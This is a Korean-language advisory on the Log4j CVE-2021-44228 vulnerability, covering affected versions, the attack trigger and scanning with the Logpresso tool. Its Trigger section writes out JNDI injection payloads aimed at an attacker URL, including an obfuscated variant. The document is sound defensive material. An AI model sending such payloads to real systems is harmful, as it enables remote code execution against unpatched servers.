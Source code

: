 

-----

## 영향 받는 버전

1. Apache Log4j 2
   - 2.0-bete9 ~ 2.14.1 모든 버전
2. Apache Log4j 2를 사용하는 제품
   - [참고사이트](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)를 확인하여 해당 제품을 이용 중일 경우, 해당 제조사의 권고에 따라 패치 또는 대응 방안 적용



-----

## Trigger

공격자가 HTTP Request에 `${jndi:rmi://공격자URL}`, `${jndi:ldap://공격자URL}`, `${jndi:${lower:l}${lower:d}a${lower:p}://공격자URL}` 와 같이 요청 시 트리거된다.



-----



## 점검 방법(1)

[참고 사이트](https://github.com/logpresso/CVE-2021-44228-Scanner)에서 서버 운영체제에 맞게 파일을 다운받는다.

서버내에서 라이브러리가 설치되어 있는 경로를 넣어 점검한다.

- Windows

```
log4j2-scan [--fix] target_path
```

- Linux

```
./log4j2-scan [--fix] target_path
```

- 유닉스(AIX, Solaris ...)

```
java -jar logpresso-log4j2-scan-1.2.0.jar [--fix] target_path
```



- Example (Windows)

```
CMD> log4j2-scan.exe D:\tmp
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\bin\elasticsearch-sql-cli-7.16.0.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\lib\log4j-core-2.11.1.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\flink-1.14.0\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\logstash-core\lib\jars\log4j-core-2.14.0.jar, log4j 2.14.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\vendor\bundle\jruby\2.5.0\gems\logstash-input-tcp-6.2.1-java\vendor\jar-dependencies\org\logstash\inputs\logstash-input-tcp\6.2.1\logstash-input-tcp-6.2.1.jar, log4j 2.9.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\contrib\prometheus-exporter\lib\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\server\lib\ext\log4j-core-2.11.0.jar, log4j 2.11.0
```

[^2]: 취약점 대응 패치가 배포되고 실제 서버에 적용되기 직전까지에 이루어지는 공격을 말한다.
[^3]: `log.info("Debug: {}", str)`에서 **str**이 **${env:USER}**라면 **USER**가 누군지 찾아서, `Debug: eli_ez3r`라고 문구를 완성하고 해당 문구를 출력하는 경우이다.